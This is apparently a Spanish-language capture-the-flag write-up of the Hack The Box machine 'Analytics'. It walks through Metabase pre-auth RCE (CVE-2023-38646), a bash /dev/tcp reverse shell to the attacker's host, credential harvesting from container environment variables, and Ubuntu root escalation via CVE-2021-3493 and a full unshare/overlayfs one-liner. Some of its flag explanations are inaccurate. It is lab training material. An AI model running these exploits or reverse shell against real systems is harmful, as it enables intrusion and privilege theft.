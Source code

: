 # Analytics
- Comenzamos escaneando el objetivo, los puertos 22 y 80 están expuestos:
~~~ bash 
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -sV 10.10.11.233
~~~

![[Pasted image 20231102163654.png]]

- Añadimos **10.10.11.233 analytical.htb** a /etc/hosts y podemos ver una pagina por el puerto 80
- Al enumerar la pagina, nos encontramos con un subdominio en http://data.analytical.htb:
![[Pasted image 20231102210211.png]]
- También encontré el [CVE-2023-38646](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396) que según su descripción, permite omitir el login a través de una vulnerabilidad en la api de Metabase
- El CVE nos indica que debemos buscar un **setup-token** en la ruta http://vulnerablehost.com/api/session/properties 
![[Pasted image 20231102210716.png]]
- Perfecto, ahora utilizamos el [PoC del exploit](https://github.com/securezeron/CVE-2023-38646?source=post_page-----bd3421cba76d--------------------------------) creado por securezeron para llevar a cabo la explotación con los parametros requeridos
- Tras probar varias veces, el PoC no me envió una conexión inversa, así que decidí revisar el codigo, y cambiar el payload
![[Pasted image 20231102212953.png]]

- Emplea un reverse shell encodeado en base64, por lo que opté por enviarlo por una solicitud hacia el endpoint ubicado en **/api/setup/validate**, mas en esta parte:
![[Pasted image 20231102214132.png]]
Yo prefiero utilizar 
~~~ bash 
bash -c "bash -i >&/dev/tcp/<ip>/<port 0>&1>"
~~~
![[Pasted image 20231102214548.png]]
- Y estamos dentro :D
![[Pasted image 20231102214616.png]]
- Después de enumerar un poco, podemos descubrir que nos encontramos dentro de un docker:
![[Pasted image 20231102214916.png]]
- Por lo que decido revisar algunas variables de entorno, y encontramos una contraseña, probablemente de ssh:
![[Pasted image 20231102215026.png]]
- Y en efecto que eran de ssh, ahora tenemos una shell mucho mas estable:
  ![[Pasted image 20231102215228.png]]
  - Primera flag :D
  ![[Pasted image 20231102215320.png]]
  

***
<h3>PrivEsc</h3>

- Después de enumerar durante buen rato, me perdí al no encontrar posibles verctores de ataque, hasta que decidí mirar la versión del kernel y del sistema operativo
- ![[Pasted image 20231102220449.png]]
  - Del kernel no encontré nada, pero si encontré un [CVE para la versión de ubuntu](https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c)
  - Dado que es un exploit binario y requiero compilarlo, me di cuenta que la maquina victima no tiene gcc instalado, así que lo compilé en mi maquina y lo compartí por un servidor de python3
  ![[Pasted image 20231102221316.png]]
- Y somos root:
  ![[Pasted image 20231102221631.png]]

**Extra**

- Encontré otros [CVE-2023-2640 & CVE-2023-32629 en un foro de Reddit](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?rdt=53261) donde se emplea una tecnica alterna para escalar a root a través de la creación de un entorno aislado dentro del equipo, con unshare, con el cual cambia el uid a uno perteneciente a root:

~~~ bash 
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'";rm -rf l u w m
~~~~

![[Pasted image 20231102222333.png]]
**1- unshare -rm sh -c "...":**
Este comando utiliza la utilidad unshare para crear un nuevo espacio de nombres <namespace> con opciones -rm. Las opciones significan lo siguiente:
- r: Propaga una jerarquía de directorios nueva (root).
- m: Propaga un punto de montaje nuevo.
- sh -c "...": Ejecuta el shell sh en el nuevo espacio de nombres y ejecuta los comandos contenidos entre las comillas dobles "...".

2- mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3; mount - overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'":

Este comando realiza una serie de operaciones en el nuevo espacio de nombres creado:
- mkdir l u w m: Crea los directorios l, u, w, y m.
- cp /u*/b*/p*3 l/: Copia archivos que coincidan con el patrón /u*/b*/p*3 al directorio l.
- setcap cap_setuid+eip l/python3: Establece capacidades especiales en el archivo l/python3, que permiten la ejecución con capacidades adicionales (en este caso, la capacidad cap_setuid y cap_eip).
- mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m: Monta un sistema de archivos overlay en el directorio m. Esto crea una capa que combina los archivos en l y u, donde l es la capa inferior (lowerdir), u es la capa superior (upperdir), y w es el directorio de trabajo (workdir). Esto permite la modificación de archivos sin afectar la capa inferior.
- touch m/*: Crea archivos vacíos en la capa combinada m.
- u/python3 -c 'import os;os.setuid(0);os.system("id")': Ejecuta el intérprete de Python (python3) que se encuentra en la capa superior u, y en ese intérprete, ejecuta un script que cambia el UID al de root (0) y luego ejecuta el comando bash para crear un entorno interactivo con las propiedades de root.
- rm -rf l u w m: Este comando solo elimina recursivamente los directorios l, u, w, y m
